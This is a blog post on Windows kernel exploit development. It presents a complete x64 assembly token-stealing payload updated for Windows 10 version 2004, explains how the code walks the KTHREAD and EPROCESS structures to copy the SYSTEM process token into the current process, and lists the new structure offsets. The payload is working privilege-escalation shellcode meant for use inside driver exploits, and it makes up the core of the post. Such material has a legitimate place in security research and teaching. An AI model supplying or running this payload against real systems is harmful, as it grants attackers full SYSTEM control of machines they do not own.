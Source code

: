 ```yaml
---
layout: post
title: 'Windows 10 2004 (20H1) Token Stealing Payload and EPROCESS Changes'
date: '2020-06-22T00:00:00.000-00:00'
author: Keramas
tags: [kernel,exploit development]
---
```


I recently re-did my Windows kernel debugging environment with the latest version of Windows 10, 2004 (20H1), and while writing a proof of concept for a driver exploit, I noticed that the token stealing payload I was using was breaking due to a bad dereference when it was crawling the EPROCESS structure. This meant that the offsets had once again changed in this new Windows build. 

## Token Stealing Payload 

The following is the updated token stealing payload that works on Windows 10 2004.

```asm
; Windows 10 x64 2004 Token Stealing Payload

[BITS 64]

__start:
	xor rax, rax
	mov rax, [gs:0x188]	; Current thread -> _KTHREAD
	mov rax, [rax + 0xb8]	; Current process -> _EPROCESS
	mov r8, rax		; Move current process' _EPROCESS to r8

__loop:
	mov rax, [rax + 0x448]	; ActiveProcessLinks
	sub rax, 0x448		; Return to current process -> _EPROCESS
	mov rcx, [rax + 0x440]	; UniqueProcessId (PID)
	cmp rcx, 4		; Compare PID to SYSTEM process PID (0x4)
	jnz __loop		; Iterate over EPROCESS nodes until SYSTEM PID is located

	mov r9, [rax + 0x4b8]	; _EPROCESS + 0x4b8 -> token
	mov [r8 + 0x4b8], r9	; Copy SYSTEM token to current process
```

For those who are unfamiliar with how the above payload works to grant system-level privilges, lets walk through the assembly a bit while explaining about the EPROCESS structure.

As the name implies, this payload aims to escalate privileges when it runs in ring 0 by grabbing a system-level token from the System process (PID of 4), and then replacing the current process' token with it. To accomplish this, it crawls several structures in order to reach the token in the System process.

First, Windows stores the location of the KTHREAD structure in the `gs` register at offset `0x188` (`[gs:0x188]`), and at offset 0xb8 of that structure, there is a pointer to the EPROCESS structure of the current process. 

The EPROCESS structure contains various process-related attributes and pointers to other structures. For the token stealing payload, several offsets will need to be gathered:

- Offset to ActiveProcessLinks
- Offset to the UniqueProcessId (the PID of the process)
- Offset to token associated with the process

From WinDBG, the EPROCESS structure can be explored the with the following command:
```
dt nt!_EPROCESS <address of process>
```

<img src = "/assets/images/EPROCESS.png">

The address used in the image is the address of the System process. The `UniqueProcessId` is located at offset `0x440`, and as the value shows, it is `0x4`, which is always the PID of the System process. Additionally, `ActiveProcessLinks` can be found at offset `0x448`. This points to the `LIST_ENTRY` structure which is a doubly-linked list containing EPROCESS nodes. This list is then iterated over and the PID is checked to see whether the value is 0x4 or not. Once it is found, the token of that process will be taken, as the System process is running under the context of nt authority\system. 

<img src = "/assets/images/EPROCESS_TOKEN.png">

The token can be found at offset `0x4b8` in the EPROCESS structure. The value present here will then replace the token of the current process in the final instruction of the payload allowing for the escalation of privileges. 

## In Summary / TL;DR

- New offsets within EPROCESS structure for Windows 10 2004
- As it relates to ring 0 token stealing payloads:
  - UniqueProcessId is now at 0x440
  - ActiveProcessLinks is now at 0x448
  - Token is now at 0x4b8
- Update payloads accordingly when running on the latest version of Windows 10